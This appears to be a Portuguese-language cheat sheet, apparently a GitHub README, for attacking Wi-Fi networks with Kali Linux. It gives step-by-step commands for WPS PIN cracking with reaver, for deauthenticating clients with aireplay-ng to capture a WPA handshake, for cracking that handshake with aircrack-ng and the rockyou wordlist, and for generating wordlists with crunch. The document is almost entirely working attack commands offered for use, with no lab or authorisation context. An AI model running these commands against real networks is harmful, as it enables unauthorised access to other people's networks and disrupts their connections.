 # Wifi Hacking -- Kali Linux
### (by Walysson dos Reis)
---------------------
### WPS Cracking com Reaver
* `airmon-ng check kill` - Interrompe processos que estejam utilizando a placa wifi
* `airmon-ng start wlan0` - Coloca a interface wifi wlan0 em modo de monitoramento
* `wash -i wlan0mon` - Ativa descoberta de redes disponivel na interface wlan0mon
* `reaver -i mon0 -c 1 -b 00:00:00:00:00:00 -vv` - Inicie o reaver inserindo interface, canal e bssid da rede alvo
* `reaver -i mon0 -c 1 -b 00:00:00:00:00:00  -vv -L -N -d 15 -T .5 -r 3:15` - Reavear com parâmetros de intervalo opcional

### Hacking Wifi WPA-PSK com Aircrack
* `airmon-ng check kill` - Interrompe processos que estejam utilizando a placa wifi
* `airmon-ng start wlan0` - Coloca a interface wifi wlan0 em modo de monitoramento
* `airodump-ng wlan0mon` - Usado para descoberta de redes disponivel na interface wlan0mon
* `wash -i wlan0mon` - Usado para descoberta de redes disponivel na interface wlan0mon em realação ao WPS
* `airodump-ng --bssid 00:00:00:00:00:00 -c 1 --write ArqCAP wlan0mon` - Inicia o modo de captura da rede alvo 
* `aireplay-ng --deauth 100 -a 00:00:00:00:00:00 wlan0mon` - Em outro terminal com modo de captura rodando execute para derrubar a rede alvo
* Ao retornar ao terminal de captura verifique se houve captura do pacote se for exibido a mensagem "WPA handshake"
* Com pacote com a senha capturado devemos usar Wordlists para tentar quebrar a senha
* /usr/share/wordlists/rockyou.txt.gz - Wordlist padrão do Kali Linux
* `gzip -d rockyou.txt.gz` - Descompacta o arquivo de wordlist deletando o arquivo zipado
* `aircrack-ng ArqCap-01.cap -w rockyou.txt` - Inicia o processo de teste de senha utilizando o arquivo de wordlist
* `grep -E '^.{8,63}$' < rockyou.txt >> rockyou_wpa_passwd.txt` -  Filtra o arquivo rockyou para senhas WPA/WPA2 (8-63 caracteres)

### Crunch : Gerador de Wordlist
* `crunch <min> <max> [opções] ` - Uso padrão do Crunch
*  lowUP123 @% # (letras minúsculas, letras maiúsculas, números e símbolos) - Ordem de Charset no Crunch
* Principais parâmetros do crunch:
    * -b: Tamanho máximo da lista de palavras (requer -o START)
    * -c: números de linhas para escrever na lista de palavras (requer -o START)
    * -d: limita o número de caracteres duplicados
    * -e: para de gerar palavras em um determinado string
    * -f: especifica uma lista de conjuntos de caracteres do arquivo charset.lst
    * -i: inverte a ordem dos caracteres na lista de palavras
    * -l: permite a interpretação literal de @,% ^ ao usar -t
    * -o: o arquivo de lista de saída
    * -p: imprime permutações sem repetir caracteres (não pode ser usado com -s)
    * -q: Como a opção -p, exceto a leitura das sequências de um arquivo especificado
    * -r: retoma uma sessão anterior (não pode ser usada com -s)
    * -s : especifique uma string específica para iniciar a lista de palavras com
    * -t: define um padrão específico de @,% ^
    * -z: comprime o arquivo da lista de saída, acompanhado de -o
 * Refência do crunch:
    * @ representa letras minúsculas
    * , representa letras maiúsculas
    * % representa números
    * ^ representa caracteres especiais
--------
## Referências
https://outpost24.com/blog/wps-cracking-with-reaver  
https://cienciacomputacao.com.br/tutorial/como-hackear-wi-fi-wpa2-psk-com-kali-linux/  
https://www.cyberpratibha.com/blog/how-do-i-use-rockyou-wordlist-txt-in-kali-linux/  
https://deadpackets.wordpress.com/2012/11/11/wireless-fun-crackeando-wpawpa2/
https://nsworld.com.br/crunch-gerador-de-wordlist/  


